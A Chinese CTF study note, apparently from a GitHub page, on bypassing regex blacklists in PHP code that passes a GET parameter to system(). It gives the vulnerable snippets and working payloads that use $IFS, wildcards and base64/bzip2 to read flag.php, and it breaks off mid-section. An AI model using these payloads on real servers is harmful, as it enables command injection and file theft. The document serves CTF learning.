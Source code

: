 ## **不可字符分割绕过**
```
$c=$_GET['c'];
if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
```
若flag在当前目录的flag.php中
下面均可
```
?c=vi$IFS????????   //类似vi flag.php F12可以看到源码
?c=uniq$IFS????????
?c=uniq${IFS}????????
?c=/bin/c??$IFS????????    //在bin目录中读取c??  其实就是cat了
?c=grep${IFS}'{'${IFS}fl???php
（在 fl???php匹配到的文件中，查找含有{的文件，并打印出包含 { 的这一行）
```

^
## **无字符绕过**
```
if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    } 
```
若flag在当前目录的flag.php中
/bin/base64 flag.php
```
?c=/???/????64 ????.???
```
/usr/bin/bzip2 flag.php
压缩后访问/flag.php.bz2下载获得flag
```
?c=/???/???/????2 ????.???
```


^
## **无数字创数字**
```
//已知flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}
```
我们要绕过正则变一个36出来
